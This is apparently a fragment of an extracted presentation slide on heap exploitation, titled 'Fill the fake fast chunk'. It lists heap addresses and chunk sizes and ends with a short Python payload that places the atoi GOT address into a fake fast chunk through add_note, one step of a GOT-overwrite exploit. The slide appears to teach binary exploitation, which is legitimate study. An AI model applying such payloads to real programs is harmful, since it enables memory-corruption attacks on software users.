

# Fill the fake fast chunk
0x603098
6
0
1
2
3
4
5
7
valid
valid
valid
valid
valid
valid
valid
valid=1
size=0x88
size=0x88
size=0x88
size=0x68
size=0x88
size=0x78
size=0x68
8
0x604830
0x604970
0x6048e0
0x604970
0x604a00
DDDD..D
0x6030a8
atoi@got
payload = 'D' * 8 * 4
payload += p64(1)
payload += p64(8)
payload += p64(atoi@got)
add_note(payload)